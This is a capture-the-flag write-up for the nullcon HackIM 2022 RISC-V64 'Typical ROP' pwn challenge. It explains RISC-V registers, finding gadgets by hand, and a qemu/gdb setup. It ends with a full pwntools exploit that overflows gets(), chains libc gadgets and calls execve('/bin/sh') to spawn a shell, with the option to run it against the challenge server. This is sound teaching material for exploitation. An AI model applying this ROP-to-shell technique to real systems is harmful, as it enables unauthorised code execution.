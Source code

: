 ### Typical ROP


was a pwn challenge from nullcon HackIM 2022 ctf.

it was a RISCV64 binary to exploit, a simple gets overflow as you can see in the reverse

![](https://github.com/nobodyisnobody/write-ups/raw/main/nullcon.HackIM.2022/pwn/typical.ROP/pics/reverse.png)

this challenge got only 2 solves, but not because of his difficulty,

just because people are not used to riscv64 architecture, and not much tools are supporting it.. (no ROPgagdget, etc...)

first you have to use dev branch from pwntools, because (at the time I write this) main branch does not have riscv support.

So install pwntools dev branch from their github.

**To resume quickly riscv64 architecture from a pwn point of view:**

* well... that's a risc processor not much different from mips , aarch64, etc...

* for syscalls, arguments are in registers (in order):   **a0**, **a1**, **a2**, **a3**, **a4**, etc...
 
* syscall number is in register: **a7**
 
* ret instruction, returns to address stored in **ra** register (and not pop address from stack)
 
* jalr (equivalent to call)  , store return address in **ra**,  and jump to our function
 
* ahh yes, and syscall instruction is named **ecall** (why not..)
 
You will have to install riscv cross compiler and tools (at least binutils part, to have objdump).

on ubuntu you can install them with:  `sudo apt install gcc-riscv64-linux-gnu binutils-riscv64-linux-gnu`

as actually ROPGadget, ropper, and co... does not support riscv architecture..

you have to find your gadgets by yourself,  using command `riscv64-linux-gnu-objdump -axd chal`

to disassemble program, and grepping, looking, searching...etc... to find usefull gadgets..

from my previous riscv64 experience, I know that there is a convenient gadget in riscv64 libc,

that looks like this:

![](https://github.com/nobodyisnobody/write-ups/raw/main/nullcon.HackIM.2022/pwn/typical.ROP/pics/gadget.png)

I think it's like the setcontext gadget in x86_64 libc, it sets all the registers from stack,

advance stack, and jump to address in **a0** (that is transfered to t1, at the beginning of the gadget)

that gadget is perfect for us, it need just another gadget to set **a0** before,

then it just set everything we need (and even more),  you can also set **ra** for the return address.. to chain gadgets...

we will use this gadget to set **a0**:

`gadget0 = 0x45a06 # ld a0,16(sp) / ld ra,40(sp) / addi sp,sp,48 / ret`

and off course, a gadget that points to a **ecall** instruction:

the rest of the exploitation is classic,  we read *'/bin/sh'* string in .bss by calling gets(),

then execute execve('/bin/sh',0,0) to get a nice shell.. like this:

![](https://github.com/nobodyisnobody/write-ups/raw/main/nullcon.HackIM.2022/pwn/typical.ROP/pics/gotshell.gif)

one last thing ,

for debugging the program.. you can use a setup like I did in my exploit:

```python
p = process('qemu-riscv64 -g 1234 ./chal',shell=True)
q = process("xfce4-terminal --title=GDB-Pwn --zoom=0 --geometry=128x98+1100+0 -x gdb-multiarch -ex 'source ~/gdb.plugins/gef/gef.py' -ex 'set architecture riscv64' -ex 'target remote localhost:1234' -ex 'b *0x1064a' -ex 'c'", shell=True)
```

on process run the qemu with gdb listening on port 1234, we will communicate with his stdin/stdout ..

the other process run in a terminal windows (edit the xfce4-terminal as you like), and run gdb-multiarch that connect to qemu via port 1234... you can set your breakpoint..etc...

**here is the exploit:**

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="riscv", os="linux")
context.terminal = ['xfce4-terminal', '--title=GDB-Pwn', '--zoom=0', '--geometry=128x98+1100+0', '-e']
context.log_level = 'info'


exe = ELF('./chal')

host, port = "52.59.124.14", "10204"

if args.REMOTE:
  p = remote(host,port)
else:
  if args.GDB:
    p = process('qemu-riscv64 -g 1234 ./chal',shell=True)
    q = process("xfce4-terminal --title=GDB-Pwn --zoom=0 --geometry=128x98+1100+0 -x gdb-multiarch -ex 'source ~/gdb.plugins/gef/gef.py' -ex 'set architecture riscv64' -ex 'target remote localhost:1234' -ex 'b *0x1064a' -ex 'c'", shell=True)
  else:
    p = process('./run.sh')


# the gadget we will use to set out registers
'''
  3d832:       832a                    mv      t1,a0
   3d834:       60a6                    ld      ra,72(sp)
   3d836:       6522                    ld      a0,8(sp)
   3d838:       65c2                    ld      a1,16(sp)
   3d83a:       6662                    ld      a2,24(sp)
   3d83c:       7682                    ld      a3,32(sp)
   3d83e:       7722                    ld      a4,40(sp)
   3d840:       77c2                    ld      a5,48(sp)
   3d842:       7862                    ld      a6,56(sp)
   3d844:       6886                    ld      a7,64(sp)
   3d846:       2546                    fld     fa0,80(sp)
   3d848:       25e6                    fld     fa1,88(sp)
   3d84a:       3606                    fld     fa2,96(sp)
   3d84c:       36a6                    fld     fa3,104(sp)
   3d84e:       3746                    fld     fa4,112(sp)
   3d850:       37e6                    fld     fa5,120(sp)
   3d852:       280a                    fld     fa6,128(sp)
   3d854:       28aa                    fld     fa7,136(sp)
   3d856:       6149                    addi    sp,sp,144
   3d858:       8302                    jr      t1
'''


ecall = 0x37e34
gadget0 = 0x45a06 # ld a0,16(sp) / ld ra,40(sp) / addi sp,sp,48 / ret
gadget1 = 0x3d832

if args.REMOTE:
  print('wait calculating hashcash shit...')
  cmd = p.recvuntil('\n',drop=True)
  s = process(cmd,shell=True)
  s.recvuntil('token: ',drop=True)
  token = s.recvuntil('\n',drop=True)
  s.close()
  p.sendlineafter('token: ', token)

#payload = shellc.ljust(72,'\x00')
payload = 'A'*72
# load a0 with gets address and jump to gadget1
payload += p64(gadget0)+p64(0)*2+p64(exe.sym['gets'])+p64(0)*2+p64(gadget1)
# gets to read /bin/sh string to 0x70f00 (.bss)
payload += p64(0)+p64(0x70f00)+p64(0)*6+p64(221)+p64(gadget0)+p64(0)*8
# load a0 with ecall gadget address and jump to gadget1
payload += p64(0)*2+p64(ecall)+p64(0)*2+p64(gadget1)
# load ecall parameters and do ecall (execve('/bin/sh', 0,0)
payload += p64(0)+p64(0x70f00)+p64(0)*6+p64(221)+p64(ecall)+p64(0)*8


p.sendlineafter('input: \n', payload)
p.sendline('/bin/sh\x00')

p.interactive()


```

*nobodyisnobody still pwning things..*


